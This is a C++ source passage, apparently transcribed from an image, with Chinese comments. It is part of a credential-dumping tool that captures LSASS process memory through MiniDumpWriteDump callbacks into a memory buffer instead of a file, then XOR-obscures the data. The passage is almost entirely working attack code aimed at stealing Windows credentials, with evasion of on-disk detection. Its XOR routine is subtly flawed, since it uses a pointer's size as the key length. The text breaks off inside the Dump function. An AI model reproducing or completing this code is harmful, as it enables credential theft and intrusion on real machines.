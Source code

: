 ```cpp
    // 根据回调类型进行不同的处理
    switch (callbackInput->CallbackType)
    {
        
    case IoStartCallback:
        
        // 在内存转储开始时，将状态设置为 S_FALSE
        // 即取消默认的写入操作，数据将不会写入文件中
        callbackOutput->Status = S_FALSE;
        break;

        
    case IoWriteAllCallback:
        // 在每次写入数据时，将状态设置为S_OK
        // 即通过自定义的方式来处理数据
        callbackOutput->Status = S_OK;

        // 保存刚刚从 lsass 进程读取的内存数据的地址
        source = callbackInput->Io.Buffer;

        // 计算数据应存储的位置，该位置是预先分配的缓冲区的开始地址加上该数据在内存转储文件中的偏移量
        destination = (LPVOID)((DWORD_PTR)buffer + (DWORD_PTR)callbackInput->Io.Offset);

        // 保存刚刚读取的内存数据的大小
        bufferSize = callbackInput->Io.BufferBytes;
        bytesRead += bufferSize;

        // 将数据从源地址复制到目标地址
        RtlCopyMemory(destination, source, bufferSize);

        break;

    case IoFinishCallback:
        // 当内存转储完成时，将状态设置为 S_OK
        callbackOutput->Status = S_OK;
        break;

    default:
        return true;
    }
    return TRUE;
}

// Xor加密函数
char* Xorcrypt(char* content, DWORD length, char* secretKey)
{
    for (UINT i = 0; i < length; i++)
    {
        content[i] ^= secretKey[i % sizeof(secretKey)];
    }

    return content;
}


int Dump() 
{   

    DWORD lsassPID = 0;  //存放lsass进程的PID
    HANDLE lHandle = NULL;

    // 检查是否具有管理员权限
    if (!CheckPrivilege()) 
```